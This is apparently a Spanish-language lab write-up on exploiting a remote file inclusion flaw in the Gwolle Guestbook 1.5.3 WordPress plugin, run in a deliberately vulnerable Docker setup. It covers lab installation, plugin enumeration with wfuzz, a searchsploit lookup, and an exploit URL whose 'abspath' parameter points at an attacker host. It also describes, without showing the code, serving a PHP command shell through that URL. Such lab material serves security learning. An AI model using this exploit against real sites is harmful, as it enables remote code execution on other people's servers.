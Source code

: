 ```yaml
---
title: "[Lab] Remote File Inclusion (RFI)"
date: 2023-12-25
categories: [OWASPTop10]
tags: [owasptop10, hacking, gwolle]
---
```




# Remote File Inclusion (RFI)


## Instalación

```bash
git clone https://github.com/vavkamil/dvwp.git
cd dvwp/

docker-compose up -d --build
# Después de ejecutar el comando anterior, se debe 
# instalar el wordpress, esto se hace en la página creada 
# al final de la instalación; http://localhost:31337

# Ejecutar este comando después de instalar el wordpress
docker-compose run --rm wp-cli install-wp
```

![Página de instalación del wordpress](../assets/OWASP-TOP-10/Remote File Inclusion (RFI)/Untitled.png)

Página de instalación del wordpress

### Instalación de plugin vulnerable

sitio: [https://downloads.wordpress.org/plugin/gwolle-gb.1.5.3.zip](https://downloads.wordpress.org/plugin/gwolle-gb.1.5.3.zip)

Una vez instalado, se procede a conectarse al contenedor:

![Untitled](../assets/OWASP-TOP-10/Remote File Inclusion (RFI)/Untitled 1.png)

Listar los directorios y darle permisos al usuario www-data sobre la carpeta wp-content:

![Untitled](../assets/OWASP-TOP-10/Remote File Inclusion (RFI)/Untitled 2.png)

![Untitled](../assets/OWASP-TOP-10/Remote File Inclusion (RFI)/Untitled 3.png)

Para poder explotar la vulnerabilidad, se debe agregar “allow-utl-include = on” en el archivo “php.ini”

![Untitled](../assets/OWASP-TOP-10/Remote File Inclusion (RFI)/Untitled 4.png)

![Untitled](../assets/OWASP-TOP-10/Remote File Inclusion (RFI)/Untitled 5.png)

Hecho eso, se debe reiniciar el contendor:

```bash
docker restart dvwp_wordpress_1
```

Luego, ir a la página de wordpress con el usuario logueado y darle a “Add plugin” y “Upload plugin”:

![Untitled](../assets/OWASP-TOP-10/Remote File Inclusion (RFI)/Untitled 6.png)

![Untitled](../assets/OWASP-TOP-10/Remote File Inclusion (RFI)/Untitled 7.png)

Ahora se carga e instala el plugin y por último, darle a “Activate plugin”:

![Untitled](../assets/OWASP-TOP-10/Remote File Inclusion (RFI)/Untitled 8.png)

![Untitled](../assets/OWASP-TOP-10/Remote File Inclusion (RFI)/Untitled 9.png)

## Explotación (Gwolle 1.5.3)

Primero se hace una enumeración de plugins disponibles con wfuzz:

```bash
wfuzz -c --hc=404 -t 15 -w /usr/share/wordlists/SecLists/
Discover/Web-Content/CMS/wp-plugins.fuzz.txt 
http://localhost:31337/FUZZ
```

![Untitled](../assets/OWASP-TOP-10/Remote File Inclusion (RFI)/Untitled 10.png)

Como se puede ver, el plugin gwolle-gb existe.

Una vez descubierto la existencia de plugins, se puede utilizar searchsploit para buscar vulnerabilidades:

```bash
searchsploit gwolle
```

![Untitled](../assets/OWASP-TOP-10/Remote File Inclusion (RFI)/Untitled 11.png)

Al revisar el archivo del exploit indica una ruta vulnerable la cual es la siguiente:

![Untitled](../assets/OWASP-TOP-10/Remote File Inclusion (RFI)/Untitled 12.png)

```bash
http://[host]/wp-content/plugins/gwolle-gb/frontend/
captcha/ajaxresponse.php?abspath=http://[hackers_website]
```

La cual con el parámetro "abspath”, permite cargar un archivo externo.

Al mandar mandar una petición a la máquina del atacante, se ve que la víctima está mandando una petición por GET al recurso /wp-load.php y da error 404 ya que no existe:

![Untitled](../assets/OWASP-TOP-10/Remote File Inclusion (RFI)/Untitled 13.png)

Se puede aprovechar de esto para crear un archivo con el mismo nombre pero con un código php que permita la ejecución de comandos con el parámetro “cmd”:

![Untitled](../assets/OWASP-TOP-10/Remote File Inclusion (RFI)/Untitled 14.png)

![Untitled](../assets/OWASP-TOP-10/Remote File Inclusion (RFI)/Untitled 15.png)

Los ampersand “&” se deben urlencodear para que no den problemas:

![Untitled](../assets/OWASP-TOP-10/Remote File Inclusion (RFI)/Untitled 16.png)

![Untitled](../assets/OWASP-TOP-10/Remote File Inclusion (RFI)/Untitled 17.png)
